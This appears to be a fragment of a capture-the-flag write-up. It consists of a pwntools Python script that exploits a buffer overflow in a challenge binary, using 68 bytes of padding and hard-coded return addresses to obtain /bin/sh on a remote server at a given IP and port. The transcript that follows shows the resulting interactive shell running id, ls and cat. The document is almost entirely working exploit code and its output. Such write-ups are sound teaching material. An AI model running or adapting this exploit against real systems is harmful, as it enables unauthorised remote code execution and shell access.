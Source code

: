 ```python
from pwn import *

#r = process("./binary")
r  = remote("68.183.231.170", 1335)
payload = ""
payload += "A"*68
payload += p32(0x80483c0)
payload += p32(0x0804851b)
payload += p32(0x0804a04c)
r.sendline(payload)
r.sendline("/bin/sh\x00")
r.interactive()
```



#### Shell and write solver name.

```
[+] Opening connection to 68.183.231.170 on port 1335: Done
[*] Switching to interactive mode
$ id
uid=1000(jhoni) gid=1000(jhoni) groups=1000(jhoni)
$ pwd
/home/jhoni
$ ls solver
binary    index.html  index.html.save
$ cd solver
$ pwd
/home/jhoni/solver
$ ls
binary    index.html  index.html.save
$ cat index.html
<html>
<body>
<pre><code>solver:

>>>
</code></pre>
$
```

